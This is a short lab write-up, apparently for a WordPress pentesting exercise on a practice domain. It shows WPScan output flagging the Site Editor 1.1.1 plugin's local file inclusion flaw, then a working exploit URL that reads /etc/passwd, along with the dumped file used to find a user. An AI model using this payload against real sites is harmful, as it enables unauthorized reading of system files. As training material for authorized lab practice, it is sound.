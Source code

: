 What is the version number of the plugin vulnerable to an LFI?:
```bash
1.1.1
site-editor
 | Location: http://blog.inlanefreight.local/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Site Editor <= 1.1.1 - Local File Inclusion (LFI)
 |     References:
 |      - https://wpscan.com/vulnerability/4432ecea-2b01-4d5c-9557-352042a57e44
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422
 |      - https://seclists.org/fulldisclosure/2018/Mar/40
 |      - https://github.com/SiteEditor/editor/issues/2

```

Use the LFI to identify a system user whose name starts with the letter "f":
Reference:
https://www.exploit-db.com/exploits/44340
```bash
** Proof of Concept **
http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

http://blog.inlanefreight.local/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

Response:
```bash
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false syslog:x:104:108::/home/syslog:/bin/false _apt:x:105:65534::/nonexistent:/bin/false lxd:x:106:65534::/var/lib/lxd/:/bin/false messagebus:x:107:111::/var/run/dbus:/bin/false uuidd:x:108:112::/run/uuidd:/bin/false dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin mrb3n:x:1000:1000:mrb3n,,,:/home/mrb3n:/bin/bash mysql:x:111:118:MySQL Server,,,:/nonexistent:/bin/false erika:x:1001:1001::/home/erika:/bin/bash frank.mclane:x:1002:1002::/home/frank.mclane:/bin/bash pollinate:x:103:1::/var/cache/pollinate:/bin/false landscape:x:112:105::/var/lib/landscape:/usr/sbin/nologin {"success":true,"data":{"output":[]}}
```
